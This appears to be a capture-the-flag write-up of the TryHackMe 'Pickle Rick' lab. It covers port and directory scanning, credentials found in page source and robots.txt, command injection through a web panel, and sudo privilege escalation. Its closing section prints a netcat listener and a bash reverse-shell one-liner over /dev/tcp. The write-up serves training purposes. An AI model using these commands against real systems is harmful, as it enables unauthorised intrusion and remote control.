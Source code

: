 # [Pickle Rick][1]
A Rick and Morty CTF. Help turn Rick back into a human!

This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

#### Scan the Machine
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

`nmap -sV -Pn <IP>`

![Nmap Scan](images/open_port.jpg)

Looks like we have two ports open: `22, 80`

> Let's check the webpage. The webpage is fascinating but nothing much to work with.

Checked the source code and found a `username`.

![Source Code](images/username.jpg)

Let's check the `robots.txt` file.

![Robots file](images/robots.jpg)
> I found some gibberish which can be a password.

I tried connecting to the machine via `ssh` using credentials -> `R1ckRul3s:Wubbalubbadubdub` but its didn't work.

Also, I had a GoBuster running -> `gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt -x php,txt,html`

![GoBuster Result](images/gobuster.jpg)
> One interesting result here is **login.php**

I then visited `http://<IP>/login.php` and I found a login panel.

![Login Page](images/login.jpg)
> I logged in with the credentials I got -> `R1ckRul3s:Wubbalubbadubdub` and it worked.

It seems like a Command Injection page. Let's try `ls -la`

![LS command](images/ls.jpg)
> Seems like we got our first ingredient `Sup3rS3cretPicjk3Ingred.txt`.

So I just opened the file in the browser and it worked.

![Less Command](images/first.jpg)

There is one more file which I found interesting was `clue.txt`

![Clue](images/clue.jpg)
> Hmm, not much of a clue.

I then checked the `home` directory. I see two directories `ubuntu` and `rick`.

![CD HOME](images/cd_home.jpg)

Let's check `rick` using `cd /home/rick; ls -la`

![Rick Home](images/cd_rick.jpg)
>  Baam! We have our second ingredient.

However, we cannot use `cat` or `head` or `tail`  as it is giving an error.

![Wrong CMD](images/wrong_cmd.jpg)
> Oh Rick! Why did you make things hard for yourselves!

But fortunately we can use `less` using `less /home/rick/second\ ingredient`

![Second Ingredient](images/second.jpg)

For third one I think we need to escalate privilege, it can be in `root` directory. First things first, let's check what programs we can run -> `sudo -l`

![Sudo L](images/sudo_l.jpg)
> Wow! We can run everything.

So, we can just do `sudo ls /root`

![Root LS](images/ls_root.jpg)
> YEAH! There is the third and the final ingredient.

Check the file using `less` command.

![Third](images/third.jpg)

With this third ingredient, we helped RICK to make potion to transform back to HUMAN.


### via Shell

When we had the access to the command panel, we could run `sudo -l` first and check. As we have all the permission.

Search for privilege escalation via `bash` on the site GTFOBins. Check the Reverse Shell command on the [GTFOBins for bash][3].  

Before running the script in the command panel, start a `nc` listener -> `nc -lvnp 4444`.

Run the script -> `bash -c 'exec bash -i &>/dev/tcp/<IP>/4444 <&1'`

![Bash Command](images/bash.jpg)

Now check your listener. You have a active connection.

![Access](images/access.jpg)

Now you can run commands like `cat`, `head`, etc.


[1]: https://tryhackme.com/room/picklerick
[2]: https://blog.hackhunt.in/search/label/Nmap
[3]: https://gtfobins.github.io/gtfobins/bash/#reverse-shell

